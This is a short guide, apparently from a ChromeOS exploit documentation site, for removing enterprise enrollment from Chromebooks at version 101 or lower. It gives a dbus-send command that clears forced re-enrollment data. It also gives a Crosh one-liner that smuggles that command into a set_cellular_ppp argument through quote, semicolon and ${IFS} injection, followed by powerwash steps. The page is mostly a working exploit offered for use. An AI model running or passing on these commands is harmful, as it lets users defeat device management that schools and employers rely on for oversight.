 ```yaml
---
title: Rootless Unenrollment (≤v101)
description: Documentation for Rootless Unenrollment.
keywords: ["chromeos exploits"]
---
```


:::note
This relies on you being at or below version 101. See [ChromeOS Versioning](/kajigs/crosver).
:::

# Requirements

- Crosh access
- Version 101 or lower

# Guide

Run this as `chronos{:sh}`:

```
dbus-send --system --print-reply --dest=org.chromium.SessionManager /org/chromium/SessionManager org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd
```

Or a funny one-liner for Crosh:

```
set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'
```

If successful, the command will return `method return` and some other data after that. Powerwash your Chromebook and log in with a personal email. On devices without FWMP, you will also have the option to enter developer mode immediately.

\- OlyB
